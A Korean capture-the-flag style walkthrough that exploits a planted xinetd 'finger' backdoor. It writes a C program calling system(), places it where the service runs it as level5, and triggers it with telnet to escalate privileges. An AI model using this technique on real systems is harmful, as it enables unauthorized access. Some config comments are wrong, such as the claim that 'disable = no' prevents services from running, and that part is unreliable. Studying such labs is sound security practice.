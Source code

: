 # 문제풀이

1. `cat hint` 입력결과 아래 내용이 출력되었다.

"누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!"

2. 해당 경로로 이동해 backdoor 파일을 찾았다. 파일은 읽기권한만 있어 `cat`명령어로 내용을 확인하겠다.

service finger
{
disable = no # no 설정으로 나열된 서비스 값들이 실행되지 못한다.
flags = REUSE # 포트가 사용중인 경우에도 재이용 할 수 있도록 지원한다.
socket_type = stream # stream 기반의 서비스로 설정
wait = no # 다중 스레드를 사용 ("yes"는 단일 스레드)
user = level5 # level5 사용자가 실행가능
server = /home/level4/tmp/backdoor # /home/level4/tmp/ 폴더의 백도어 파일 실행
log_on_failure += USERID # 원격사용자 ID
}
finger 서비스는 user의 정보를 얻어오는 명령어다. 따라서 서비스는 아래의 의미를 지닌다.
`finger 서비스를 실행하면 level5 권한으로 /home/level4/tmp/backdoor 실행`

3. /home/level4/tmp/ 경로로 이동해 `backdoor`파일을 찾아봤지만 존재하지 않아 파일을 직접 생성해야한다.

## source code

```c
#include <stdio.h>
#include <stdlib.h> // system 함수를 사용하려면 해당 라이브러리를 사용

// system()함수는 명령어를 실행하는 함수다.
int main(void)
{
    system("my-pass");
}
```

아래 명령어로 컴파일 한다.
`gcc -o backdoor backdoor.c`

## finger 포트

아래 명령어를 사용해 `finger` 서비스의 포트번호를 확인결과 79번 포트를 사용한다.
`cat /etc/services | grep finger`

`services`는 현재 실행중인 서비스와 포트번호를 출력한다.
`gerp` 특정 문자열을 찾을 때 사용하는 명령어

`telnet`을 이용해 `finger`서비스를 실행한다.
`telnet localhost 79`

password : what is your name?
